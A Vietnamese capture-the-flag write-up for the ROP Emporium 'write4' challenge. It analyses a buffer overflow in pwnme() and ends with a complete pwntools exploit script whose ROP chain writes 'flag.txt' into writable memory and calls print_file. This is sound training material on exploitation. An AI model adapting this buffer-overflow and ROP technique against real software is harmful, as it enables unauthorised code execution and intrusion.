 # ROP_Emporium - write4

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Ở đây ta không nhìn được cách hàm pwnme() hoạt động nên ta sẽ đọc mã assembly từ file binary:

![pwnme2.png](images/pwnme2.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

cũng như usefulGadgets()

![usefulGadgets.png](images/usefulGadgets.png)

# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số `nonexistent` thành `flag.txt` để hàm này đọc flag file và in ra

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây
![usefulFunction2.png](images/usefulFunction2.png)

Đối với usefulGadgets() có `mov    QWORD PTR [r14],r15` để đưa giá trị từ thanh ghi r15 vào giá trị tại địa chỉ thanh ghi r14 mà khi ta tra bảng gadget có `pop r14, r15, ret`

![pop_r14.png](images/pop_r14.png)

Mà trong file không có sẵn chuỗi "flag.txt"
--> Ta sẽ dùng usefulGadgets() để ghi chuỗi "flag.txt" vào 1 vị trí trống nào đó

Tìm 1 địa chỉ trống có quyền ghi:

![vmmap.png](images/vmmap.png)

ở đây trong khoảng `0x00601000 - 0x00602000` có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:

![strstr.png](images/strstr.png)

ở đây mình sẽ lấy `0x601140`


ROP_chain ta sẽ làm như sau:

- pop 2 thanh ghi r14 và r15 để ghi vào chúng
- đẩy vào r14 địa chỉ cần ghi vào
- đưa chuỗi "flag.txt" vào r15
- sử dụng usefulGadget() để đưa giá trị "flag.txt" vào địa chỉ cần ghi
- pop rdi ra để đưa địa chỉ chữa chuỗi "flag.txt" vào
- nhảy đến hàm print_file sau khi đã setup thanh ghi rdi

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./write4', checksec=False)

p = process("./write4")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
vuln = elf.sym['usefulFunction']
gadget = elf.sym['usefulGadgets']

null_addr = 0x601140

payload = flat(
    cyclic(0x28),
    pop_r14_r15,
    null_addr,
    b"flag.txt",
    gadget,
    pop_rdi_ret,
    null_addr,
    vuln+9
    )
p.sendlineafter(b">",payload)
p.interactive()

```
# 4. Lấy flag

![flag.png](images/flag.png)


